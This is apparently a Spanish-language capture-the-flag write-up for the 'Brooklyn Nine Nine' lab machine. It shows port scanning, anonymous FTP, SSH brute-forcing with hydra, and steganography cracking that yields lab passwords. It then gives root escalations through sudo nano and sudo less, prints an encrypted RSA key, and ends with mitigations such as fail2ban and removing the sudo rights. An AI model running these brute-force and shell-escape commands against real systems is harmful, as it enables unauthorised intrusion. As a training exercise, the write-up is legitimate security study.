 # Brooklyn Nine Nine
Room bastante sencilla, el punto fuerte, tiene al menos dos vias para hacer Privesc distintas
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
## Enum 
### FTP 
Tenemos un login Anonymous habilitado, entramos y solo podemos recuperar lo siguiente
```
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
```
El archivo nos habla de un user con una pass debil
```
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Vamos a probar a tirar de bruteforcing 
```
hydra -l jake -P ~/rockyou.txt ssh://10.10.128.204
```
Y tenemos la pass 
```
[22][ssh] host: 10.10.128.204   login: jake   password: 987654321
```

### HTTP
En el fuente de la página encontramos el siguiente comentario:
```html
<!-- Have you ever heard of steganography? -->
```
Y la pagina parece tener solamente una imagen asi que descargemosla y probemos con stegcracker
```
Attacking file 'brooklyn99.jpg' with wordlist '~/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20458 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```
Veamos el archivo:
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Con esto ya podemos entrar como holt

## Privesc
### Holt 
```
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
Easy Peasy
```
holt@brookly_nine_nine:~$: sudo /bin/nano -s /bin/sh
> /bin/sh
> [CTRL + T]
root@brookly_nine_nine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Jake
```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
Easy 2.0
```
jake@brookly_nine_nine:~$ sudo less /etc/profile
> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Amy

Dentro de la carpeta de amy encontramos una clave rsa
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8A45EF5CE95F44B523FBD6AEEAD2B9E6

//MOmD5ttJ6rTXqLiBtvOmCcXLWmgexGwQZc2sy6P9mVlh9nUD2g2gN/SwyOIOzo
pWBjAatk7qpqwbsGDstQsKErCDGCH/qjF49zG1meMNbzxFQAT5vOxGM/0oYJwD9F
BKeRcOqY0vKjiJz0Wf9ZA3+CF3xdjNvVhneGe3BE1jEX2J3+sGZ0qiNLkYn6Mw+h
jDLglBkq1qNxsGD1uKI6Hau4tOykPDphrhTiY+os7zyloEaVto53d1JUolL0W6qG
OwjIY37KP0VjwUClUivwu24yWJLZ8ISIy+PVb9AXcOSERxSFbXpuWMVurYpenc5a
TyinBbDZI31+xStteQYCb3SrnPlHQC1waAMr22RzXMSNpdJ29D7Use8CMMsBofFv
5v43IhNuNVuGik1Qoh4kg45aIW4PHpEIzHqz89hzHnTNJnbkZIri4VPDu1+tgeUB
YVXclhpOXj+AI8FeJix1OIW6lGQM48iApBq0GQn5877vxaepP2A2BU44Ips2WYvG
WxD8u9nW7muG8hEtU/Jmz1v1j5PIJm9BENkam/4/7VRbGw2RO3FUjpAHsdnzr+k5
yZ/sxWpVkIhbO3SO3/+TUTIAODZJ3fJB5fHspXCwIjWoU4ff6aW+LsDv5rpXbrxt
IqA+mpn31fwr0nmVYS/+seDA0atdFl6c+1Zav7dSoNF+hlqssxX7YXm3+LGQdQWa
gSNNSS3Cj6gyPUSs6+t0mKHzgnB/Ofah2epLzi9/K+UxKtyCjnKlYV8GSH+EZIPk
YPKGnzHet4QRrhP6YYeBfatDeblxIQZX1u6G9gGkWqFFIXgMe2wDyaoBA/cS2/am
GcS1SP0tNOZCsAMz5Q87YG44nhaSJReuUnna4fHBhti6pymWZYXvecovB/23xpNu
LDkoxmZDa/jUfO0Ua9xuhjp3usT3Nin2iAUl3inLXzpr6wQDoW1OuZbV6jitqdMv
v1Yf/Ycn5/g07aCpVAv8VyZ1J2/ilDOFuaVPQBJXKsm79fbLbXj2gTGjwKTo2JBa
EqPBMxD1X2gKxUQky9c/W1NfvZ1DqdU2+KC9o/qztuWRzO+MA/UwGKEJ93mcmeqA
6cxRy+IuzuS4/U7EegNLd6VkAJANYgXmr6Q3HlzuH8opFvh33VFejww4/w99jQfZ
mTSqSPS0QX9Sdo7U58IfDq+j13Il/aymcSWkBw6/DDwdDzl/7ZQ/X/XqE0Jjh1QY
Ro6xjI5LnDDCZjXkNu0Da/AfQG/Y0AzZUylhnH0/l4vdXPGDRffxlEQQNnGKwGk9
GSFvIHuEni9c/G7vW/wNgI9mSlycR02oCVyInHMepcLWDYyIAyFEyh/G65iGG0Z/
Y6cdOJSYTyuwVbK8469YHowvD4/7urHaSLeNmViT+URyoRLp9wV/8HaNMW5q5i6D
p0TrrdkFQiDR5X+rbfL+EgFYCwOanABkK+FzptbXB0ABte7L+PSICvZKsCn/yo6z
fxraAZ0nJejWQEYEH99o7T7uHkR+CZSD8gWPBsaP8pfPJSeKR9LzXG3MOWGc+5/p
gZBPQI5EwbUaWtnwEKqzTqT1G/+iYps8ExqUGj9lZWPnwNAEnWXiKJfTZF2lJyqz
-----END RSA PRIVATE KEY-----

```
Si la crackeamos veremos que la contraseña es jake1 , el problema es que nos pide pass y clave para entrar como amy, asi que no se de donde sacarla, sin usar el hash de shadow.txt obtenible mediante la escalada a root usando cualquier otro usuario

# Analisis de la intrusión
### FTP login anonymous habilitado
Una mala decisión en cuanto a la configuración en el servidor FTP por parte del administrador (habilitar el login anonymous) , nos permitio acceder a  archivos sensibles, aunque en este caso se habian tomado medidas de mitigación sobre el acceso del ftp a la máquina.
### SSH Bruteforcing allowed
No existe ningún tipo de medida para evitar ataques por fuerza bruta contra el servidor esto unido a una password police poco segura nos permitio el acceso.
### Contraseñas visibles
Guardar una contraseña en una foto accesible por mucha esteganografía que se use en ellas, es definitivamente mala idea.
### Privileged nano execution
La posibilidad de ejecutar nano de manera privilegiada puede conducir a un atacante a elevar privilegios en un sistema.
### Privileged less execution
La posibilidad de ejecutar less de manera privilegiada puede conducir a un atacante a elevar privilegios en un sistema.
# Solucion
### SSH Bruteforcing allowed
La instalación de un sistema de prevención como fail2ban evitaria la posibilidad de realizar un ataque por fuerza bruta al servicio ssh.
### Privileged nano execution
Permitir a un usuario regular ejecutar nano como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto.
### Privileged less execution
Permitir a un usuario regular ejecutar less como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto.
